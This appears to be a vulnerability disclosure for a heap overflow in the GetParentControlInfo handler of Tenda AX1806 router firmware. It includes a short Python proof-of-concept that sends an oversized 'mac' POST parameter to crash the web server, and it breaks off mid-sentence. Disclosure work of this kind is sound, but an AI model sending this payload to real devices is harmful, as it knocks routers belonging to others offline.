


# Tenda AX1806 GetParentControlInfo function heap overflow

## Overview

- The device's official website: https://www.tenda.com.cn/product/AX1806.html
- Firmware download website: https://www.tenda.com.cn/download/detail-3306.html

## Affected version

v1.0.0.1

## Vulnerability details

/bin/tdhttpd has a heap overflow vulnerability.The vulnerability exists in GetParentControlInfo function, we can through the URL `goform/GetParentControlInfo` access to it. 

- 

The function takes the POST parameter `mac`, does not verify its length, and copies it directly to the heap memory, resulting in a heap overflow.

## PoC

Poc of Denial of Service(DoS)

```python
import requests

data = {
    b"mac": b"A"*0x400
}
res = requests.post("http://127.0.0.1/goform/GetParentControlInfo", data=data)
print(res.content)
```

I use qemu-user to emulate it. When I run the POC script, I can see



